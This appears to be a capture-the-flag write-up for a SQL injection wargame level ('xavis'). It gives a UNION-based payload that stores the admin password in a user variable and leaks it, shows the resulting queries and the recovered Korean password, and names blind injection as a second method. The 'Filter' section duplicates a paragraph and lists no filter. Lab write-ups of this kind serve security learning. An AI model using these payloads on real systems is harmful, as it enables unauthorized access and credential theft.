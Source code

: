 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 19
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/fd332084-b8f3-4deb-ad35-fedd5d2021f5)

We are provided with the SQL query:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='{$_GET[pw]}'
```

For this challenge, the password is in Korean. There are two ways of solving this challenge.

## Filter

The code filters the following:

For this challenge, the password is in Korean. There are two ways of solving this challenge.

1. Assigning the password to a variable and leaking the variable
2. Blind SQL Injection

## Assigning the password to a variable and leaking the variable

If we provide the following URI parameter:

```
?pw=' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword %23
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='' or (SELECT @adminpassword:=pw WHERE id='admin') UNION SELECT @adminpassword -- -'
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/6bad479f-f987-4106-bf7f-cd348902bf6c)

As we can see, the password which was stored in the `adminpassword` variable has been leaked.

```
우왕굳
```

We can now provide the following URI:

```
?pw=우왕굳
```

The resultant query becomes:

```sql
SELECT id FROM prob_xavis WHERE id='admin' AND pw='우왕굳'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/30da5ecc-5dec-4a67-9d19-509490f2753f)
